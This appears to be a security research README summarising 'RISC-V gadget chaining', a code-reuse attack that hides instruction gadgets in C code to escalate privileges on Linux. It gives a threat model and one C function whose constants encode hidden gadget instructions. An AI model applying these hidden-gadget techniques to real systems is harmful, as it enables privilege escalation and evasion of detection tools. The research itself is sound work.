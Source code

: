 ### Attack Summary

***RISC-V gadget chaining*** is a code-reuse attack against the RISC-V ISA. It presents a new class of gadgets (using several Linear Code Sequences And Jumps, ***LCSAJ***) that were undetected by the Galileo tools. Chaining those gadgets allow the attacker to perform a privilege escalation attack from a C code injection.

### Attacker Threat Model

The target platform features a standard Linux operating system such as Debian or Fedora, with two levels of privilege (`user` and `root`). Standard protections are in place such as ASLR or DEP. Programs are compiled with stack smashing mitigation such as `gcc`'s `-fstack-protector-strong` (since `gcc`'s `-mmitigate-rop` or `clang`'s CFI are not available on RISC-V).

### Recipe

***Gadget Chaining:*** The hidden instruction are directly written in C code and feature one or two instructions followed by a jump to a relative offset.

```C
long long function15c() {
	dummy();
	dummy4((signed) 0x9932000,
		   0,
		   (signed) 0xa0212000,
		   (signed) 0x23371000);
	return 0;
}
```

